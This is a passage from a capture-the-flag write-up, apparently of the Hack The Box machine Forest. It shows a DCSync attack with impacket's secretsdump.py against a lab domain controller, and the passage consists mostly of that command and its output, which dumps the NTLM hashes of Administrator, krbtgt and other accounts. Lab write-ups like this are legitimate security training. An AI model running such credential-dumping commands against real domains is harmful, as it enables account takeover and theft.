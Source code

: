 4. Finally, perform a **DCSync** and extract all the password hashes of all the users on the domain with **impacket** `secretsdump.py`:

```bash
$ /usr/share/doc/python3-impacket/examples/secretsdump.py htb.local/amirr0r:password1234@10.10.10.161
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\$331000-VK4ADACQNUCA:1123:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_2c8eef0a09b545acb:1124:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_ca8c2ed5bdab4dc9b:1125:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_75a538d3025e4db9a:1126:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_681f53d4942840e18:1127:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_1b41c9286325456bb:1128:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_9b69f1b9d2cc45549:1129:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_7c96b981967141ebb:1130:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_c75ee099d0a64c91b:1131:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_1ffab36a2f5f479cb:1132:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\HealthMailboxc3d7722:1134:aad3b435b51404eeaad3b435b51404ee:4761b9904a3d88c9c9341ed081b4ec6f:::
htb.local\HealthMailboxfc9daad:1135:aad3b435b51404eeaad3b435b51404ee:5e89fd2c745d7de396a0152f0e130f44:::
htb.local\HealthMailboxc0a90c9:1136:aad3b435b51404eeaad3b435b51404ee:3b4ca7bcda9485fa39616888b9d43f05:::
htb.local\HealthMailbox670628e:1137:aad3b435b51404eeaad3b435b51404ee:e364467872c4b4d1aad555a9e62bc88a:::
htb.local\HealthMailbox968e74d:1138:aad3b435b51404eeaad3b435b51404ee:ca4f125b226a0adb0a4b1b39b7cd63a9:::
htb.local\HealthMailbox6ded678:1139:aad3b435b51404eeaad3b435b51404ee:c5b934f77c3424195ed0adfaae47f555:::
htb.local\HealthMailbox83d6781:1140:aad3b435b51404eeaad3b435b51404ee:9e8b2242038d28f141cc47ef932ccdf5:::
htb.local\HealthMailboxfd87238:1141:aad3b435b51404eeaad3b435b51404ee:f2fa616eae0d0546fc43b768f7c9eeff:::
htb.local\HealthMailboxb01ac64:1142:aad3b435b51404eeaad3b435b51404ee:0d17cfde47abc8cc3c58dc2154657203:::
htb.local\HealthMailbox7108a4e:1143:aad3b435b51404eeaad3b435b51404ee:d7baeec71c5108ff181eb9ba9b60c355:::
htb.local\HealthMailbox0659cc1:1144:aad3b435b51404eeaad3b435b51404ee:900a4884e1ed00dd6e36872859c03536:::
htb.local\sebastien:1145:aad3b435b51404eeaad3b435b51404ee:96246d980e3a8ceacbf9069173fa06fc:::
htb.local\lucinda:1146:aad3b435b51404eeaad3b435b51404ee:4c2af4b2cd8a15b1ebd0ef6c58b879c3:::
htb.local\svc-alfresco:1147:aad3b435b51404eeaad3b435b51404ee:9248997e4ef68ca2bb47ae4e6f128668:::
htb.local\andy:1150:aad3b435b51404eeaad3b435b51404ee:29dfccaf39618ff101de5165b19d524b:::
htb.local\mark:1151:aad3b435b51404eeaad3b435b51404ee:9e63ebcb217bf3c6b27056fdcb6150f7:::
htb.local\santi:1152:aad3b435b51404eeaad3b435b51404ee:483d4c70248510d8e0acb6066cd89072:::
amirr0r:9601:aad3b435b51404eeaad3b435b51404ee:d4a1be1776ad10df103812b1a923cde4:::
```